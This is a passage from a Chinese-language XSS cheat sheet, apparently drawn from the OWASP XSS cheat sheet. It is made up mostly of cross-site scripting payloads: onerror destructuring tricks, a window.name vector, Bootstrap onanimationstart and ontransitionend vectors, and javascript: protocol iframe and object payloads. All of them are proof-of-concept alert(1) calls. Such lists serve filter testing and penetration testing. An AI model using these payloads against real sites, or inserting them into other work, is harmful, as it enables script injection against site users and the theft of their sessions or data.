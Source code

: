 #### **XSS 无大于**

```
<svg onload=alert(1)
```

#### **使用 onerror 进行基于数组的析构**

```
<script>throw[onerror]=[alert],1</script>
```

#### **使用一个错误进行析构**

```
<script>var{a:onerror}={a:alert};throw 1</script>
```

#### **使用默认值和 onerror 进行析构**

```
<script>var{haha:onerror=alert}=0;throw 1</script>
```

#### **使用 window.name 的矢量**

```
<script>window.name='javascript:alert(1)';</script><svg onload=location=name>
```

### **框架**

#### Bootstrap onanimationstart 事件

```
<xss class=progress-bar-animated onanimationstart=alert(1)>
```

#### **引导传输结束事件**

```
<xss class="carousel slide" data-ride=carousel data-interval=100 ontransitionend=alert(1)><xss class=carousel-inner><xss class="carousel-item active"></xss><xss class=carousel-item></xss></xss></xss>
```

### **协议**

在 OWASP XSS 备忘单的这一部分，我们将介绍各种 XSS 协议。

#### **Iframe src 属性 JavaScript 协议**

```
<iframe src="javascript:alert(1)">
```

#### **使用 JavaScript 协议的对象数据属性**

```
<object data="javascript:alert(1)">
```
